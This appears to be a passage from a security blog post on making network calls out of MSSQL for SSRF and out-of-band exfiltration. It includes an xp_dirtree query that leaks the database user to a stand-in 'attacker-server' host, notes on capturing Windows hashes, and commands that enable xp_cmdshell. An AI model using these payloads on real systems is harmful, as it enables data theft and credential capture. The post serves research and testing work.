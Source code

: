 One technique that keeps coming up is the usage of the undocumented stored procedure `xp_dirtree` that allows you to list the directories in a folder. This stored procedure supports UNC paths, which can be abused to leak Windows credentials over the network or extract data using DNS requests.

If you are able to execute operating system commands, then you could invoke Powershell to make a curl (`Invoke-WebRequest`) request. You could do this via the hacker favorite `xp_cmdshell` as well.

Alternatively, you could also use a User Defined Function in MSSQL to load a DLL and use the dll to make the request from inside MSSQL directly.

Let's look at the above techniques in a little more detail.

### Limited SSRF using master..xp_dirtree (and other file stored procedures)

The most common method to make a network call you will come across using MSSQL is the usage of the Stored Procedure `xp_dirtree`, which weirdly is undocumented by Microsoft, which caused it to be <a href="https://www.baronsoftware.com/Blog/sql-stored-procedures-get-folder-files/" target="_blank" rel="noopener noreferrer">documented by other folks on the Internet</a>. This method has been used in <a href="https://www.notsosecure.com/oob-exploitation-cheatsheet/" target="_blank" rel="noopener noreferrer"> multiple examples</a> of <a href="https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/" target="_blank" rel="noopener noreferrer">Out of Band Data exfiltration</a> posts on the Internet.

Essentially,

```
DECLARE @user varchar(100);
SELECT @user = (SELECT user);  
EXEC ('master..xp_dirtree "\\'+@user+'.attacker-server\aa"');
```

Much like MySQL's `LOAD_FILE`, you can use `xp_dirtree` to make a network request to only TCP port 445. You cannot control the port number, but can read information from network shares. Addtionally, much like any UNC path access, <a href="https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478" target="_blank" rel="noopener noreferrer">Windows hashes will be sent over to the network that can be captured and replayed for further exploitation</a>.

**PS:** This does not work on `Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)` running on a `Windows Server 2016 Datacenter` in the default config.

There are other stored procedures <a href="https://social.technet.microsoft.com/wiki/contents/articles/40107.xp-fileexist-and-its-alternate.aspx" target="_blank" rel="noopener noreferrer"> like `master..xp_fileexist` </a>etc. as well that can be used for similar results.

### master..xp_cmdshell

The extended stored procedure <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql" target="_blank" rel="noopener noreferrer">`xp_cmdshell` spawns a Windows command shell and executes the string passed to it, returning any rows of text</a>. This command is run as the SQL Server service account.

`xp_cmdshell` is disabled by default. You can enable it using the SQL Server Configuration Option. Here's how

```
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
GO
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
GO
exec master..xp_cmdshell 'whoami'
GO
```
